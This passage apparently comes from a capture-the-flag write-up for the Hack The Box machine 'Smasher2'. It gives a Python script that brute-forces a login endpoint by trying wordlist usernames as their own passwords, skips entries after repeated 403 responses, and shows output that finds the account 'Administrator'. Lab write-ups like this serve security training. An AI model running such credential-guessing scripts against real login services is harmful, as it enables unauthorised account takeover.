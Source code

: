 ```python

}

with open("userlist3.txt") as f:
    passwords = f.read().splitlines()

i = 0
bad = 0

while True:
    bad = 0
    s = requests.Session()
    r = s.get("http://wonderfulsessionmanager.smasher2.htb/login", proxies=proxies)
    if r.status_code != 200:
        print("GET FAILED!")
        exit(1)
    data = '{"action":"auth","data":{"username":"%s","password":"%s"}}' % (passwords[i], passwords[i])
    print("Testing username: %s" % passwords[i])
    while True:
        r = s.post(url, headers=headers, data=data, proxies=proxies)
        if r.status_code == 200:
            break
        if r.status_code == 403:
            bad = bad + 1
            if bad == 5:
                print("Skipping... %s" % passwords[i])
                break
    if (not "Cannot authenticate with data" in r.text) and (bad < 5):
        print("Potential password! %s" % passwords[i])
        with open("out.txt", "a") as f:
            f.write("%s\n" % passwords[i])
    i = i + 1
    time.sleep(0.05)
```

Eventually, I found that the username `Administrator` is the right one:

```
# python brute.py 
Testing username: admin
Testing username: administrator
Testing username: operator
Testing username: sql
Testing username: demo
Testing username: pos
Testing username: user
Testing username: default
Testing username: defaultaccount
Testing username: account
Testing username: accounting
Testing username: guest
Testing username: guest
Testing username: adm
Testing username: office
Testing username: manager
Testing username: Admin
Testing username: Administrator
Potential password! Administrator
```
